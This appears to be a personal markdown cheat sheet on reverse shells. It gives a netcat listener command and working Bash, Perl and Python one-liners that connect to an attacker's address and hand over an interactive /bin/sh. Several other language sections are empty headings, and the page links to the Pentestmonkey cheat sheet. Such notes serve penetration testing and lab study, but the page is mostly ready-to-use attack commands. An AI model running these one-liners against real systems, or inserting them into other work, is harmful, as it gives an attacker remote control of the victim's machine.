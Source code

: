 # shells


## Reverse Shells

### Bash
- Tested using
  - Active machine: `Kali Linux 5.7.0`
  - Passive machine: `bash 5.1.4(1)-release` (Kali Linux vagrant box)
- Be sure that `bash` is in use, not `zsh`!

```
# set up netcat listener on active machine
nc -l -vvv -p (nc listener port)

# create reverse shell
# - bash -i :: start interactive bash shell
# - >&      :: redirect both stdout and stderr (fd 1 and 2)
# - /dev/tcp/ip/port :: bash specific syntax for TCP socket connection to ip:port
# - 0<&1    :: redirect fd 1 (connected to the socket) to stdin

bash -i >& /dev/tcp/(active machine)/(nc listener port) 0<&1
```

### Perl (untested)

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python (untested)

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP (untested)

### Ruby (untested)

### Netcat 

### Java

### xterm

## References
- [Pentestmonkey Reverse Shell Cheatsheet](http://web.archive.org/web/20180702062128/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Reverse shell with bash](http://web.archive.org/web/20180625050916/http://www.gnucitizen.org/blog/reverse-shell-with-bash/)
